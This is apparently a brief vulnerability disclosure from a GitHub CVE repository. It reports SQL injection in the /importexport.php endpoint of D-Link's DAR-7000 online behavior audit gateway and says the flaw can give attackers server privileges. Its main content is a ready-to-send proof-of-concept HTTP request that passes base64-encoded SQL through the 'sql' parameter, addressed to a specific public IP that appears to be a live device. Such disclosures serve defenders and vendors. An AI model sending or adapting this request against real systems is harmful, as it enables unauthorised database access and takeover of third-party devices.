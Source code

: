 There is a backend SQL injection vulnerability in the D-LINK DAR-7000 series online behavior audit gateway. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.
official： http://www.dlink.com.cn/

version:DAR-7000  DAR V31R02B1413C

Vulnerability Path ：/importexport.php
<img width="743" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/47c12a81-4b76-4f9c-895f-6cd979eb4b80">

poc：
```
GET /importexport.php?sql=c2VsZWN0IDEsZGF0YWJhc2UoKSx2ZXJzaW9uKCk=&type=exportexcelbysql HTTP/1.1
Host: 60.22.74.195:8443
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```
<img width="752" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/47988d78-26a0-4071-995c-9593c6b9b320">


